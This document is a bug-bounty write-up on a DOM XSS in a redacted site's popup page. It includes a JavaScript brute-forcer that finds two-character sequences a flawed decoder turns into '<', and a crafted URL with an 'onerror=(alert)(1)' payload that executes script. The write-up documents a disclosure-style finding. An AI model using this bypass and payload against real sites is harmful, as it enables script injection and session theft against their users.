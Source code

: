 # DOM XSS on [REDACTED2]

After spending hours doing recon on [REDACTED2]'s website, I came across this interesting URL:
```
https://[REDACTED2]/.../popupAlert.jsp?locale=i&style=g&txt=dummy_text
```

As you can guess by the URL, this seems to be a page which generates popups using the `txt` parameter.
The data in the `txt` parameter was written to the screen, but trying to use the open tag character (`<`) would 
safely write it to the page. So what was going on here?

Upon cracking open the Chrome DevTools, I found a snippet that looks like the following:
```javascript
// I don't have the original code, this is a vague re-creation
utftext = "\x12\x34"

i = 0
c = utftext.charCodeAt(i);
c2 = utftext.charCodeAt(i+1);

document.write(String.fromCharCode(((c&31)<<6) | (c2&63)));
```
Essentially, the `txt` parameter would encode non-English characters to the hex values 
you can see in the `utftext` variable. 

This means that we can't directly inject a `"` or `>` to escape the script and run our own JavaScript code. 
However, the `document.write` still caught my interest. What if we could figure out a way to encode a `<` character, 
so that we could get the `document.write` to inject our own HTML and JavaScript code?

I ended up writing the following code to try and bruteforce the combination of 2 hex values needed to get the 
`String.fromCharCode` function to return a `<`:
```javascript
// Which char do we want to encode
ccode = "<"

function decimalToHex(d, padding) {
    // https://stackoverflow.com/a/57807/11985743
    var hex = Number(d).toString(16);
    padding = typeof (padding) === "undefined" || padding === null ? padding = 2 : padding;
    while (hex.length < padding) {
        hex = "0" + hex;
    }
    return hex;
}

done = false
ccode = ccode.charCodeAt(0);
for (i = 100; i < 300; i ++) {
    for (j = 1; j < 2 ** 16 - 1; j ++) {
        if ((((i&31)<<6) | (j&63)) == ccode && j != ccode && i != ccode) {
            console.log("\\u" + decimalToHex(i, 4) + "\\u" + decimalToHex(j, 4));
            
            done = true
            break
        }
    }

    if (done) break
}
```
Which yielded the following output:
```text
\u0080\u007c
```
If we test this out by passing it back to the original function:
```javascript
utftext = "\u0080\u007c"
i = 0
c = utftext.charCodeAt(i);
c2 = utftext.charCodeAt(i+1);
String.fromCharCode(((c&31)<<6) | (c2&63));

// Outputs: '<'
```
Great! So all we need now is to encode the rest of the special characters in the payload, and we get a 
little something like this:
```text
\u00c0|img src=x onerror=(alert)(1)\u00c0~
```
Putting it all together, we get this link:
```
https://[REDACTED2]/.../popupAlert.jsp?locale=i&style=g&txt=\u00c0|img src=x onerror=(alert)(1)\u00c0~
```
And... our code executes!
![](XSS_[REDACTED2].jpg)